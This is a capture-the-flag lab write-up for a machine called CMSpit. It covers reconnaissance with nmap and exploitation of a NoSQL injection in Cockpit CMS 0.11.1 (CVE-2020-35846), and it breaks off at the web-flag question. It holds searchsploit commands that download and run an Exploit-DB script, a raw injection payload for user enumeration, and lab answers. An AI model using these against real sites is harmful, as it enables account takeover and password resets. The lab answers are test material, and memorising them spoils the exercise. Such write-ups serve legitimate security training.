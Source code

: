 ### CMSpit
This is a machine that allows you to practise web app hacking and privilege escalation using recent vulnerabilities.

## 🖥️ Initial Recon:
Beginning with a basic nmap scan:
```bash
nmap -A 10.10.116.219
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-15 11:10 +06
Nmap scan report for 10.10.116.219
Host is up (0.18s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 7f:25:f9:40:23:25:cd:29:8b:28:a9:d9:82:f5:49:e4 (RSA)
|   256 0a:f4:29:ed:55:43:19:e7:73:a7:09:79:30:a8:49:1b (ECDSA)
|_  256 2f:43:ad:a3:d1:5b:64:86:33:07:5d:94:f9:dc:a4:01 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-title: Authenticate Please!
|_Requested resource was /auth/login?to=/
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.4
OS details: Linux 4.4
Network Distance: 5 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Ports 22 and 80 are open; focusing on port 80.

## 🌐 Web Enum:
Visiting port 80 provides us with a login page.

***● What is the name of the Content Management System (CMS) installed on the server?***

The CMS name is displayed on the login page
Ans: cockpit

***● What is the version of the Content Management System (CMS) installed on the server?***

The version number can be found in the login page's source code. Right-click the page, open the source code, and examine it carefully
Ans: 0.11.1

***● What is the path that allow user enumeration?***

This endpoint in Cockpit CMS 0.11.1 is vulnerable to NoSQL Injection (CVE-2020-35846), allowing attackers to enumerate valid usernames.
Ans: /auth/check

**Exploitation:**\
There’s both an automated and a manual exploit; let’s try the automated one first.
```bash
searchsploit cockpit 0.11.1
```
you'll find the exploit, now it's time to download and execute.
```bash
searchsploit -m 50185
```
```bash
python3 50185.py -u http://IP/
```
This vulnerability allows extracting password reset tokens, retrieving full user details (including email, hashed password, and user ID), and resetting any user's password without authentication.
To manually test for vulnerabilities, use Burp Suite to intercept login attempts with arbitrary credentials, then craft an exploit payload based on resources like Exploit-DB.
```bash
{"auth":{"user":{"$func":"var_dump"},"password":"admin"},"csfr":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJjc2ZyIjoibG9naW4ifQ.dlnu8XjKIvB6mGfBlOgjtnixirAIsnzf5QTAEP1mJJc"}
```
This is the one I used

***● What is the path that allows you to change user account passwords?***

Review the exploit file to identify the path for changing the password.
Ans: /auth/requestreset

***● Compromise the Content Management System (CMS). What is Skidy's email.***

Use the exploit and compromise user skidy
Ans: skidy@tryhackme.fakemail

***● What is the web flag?***

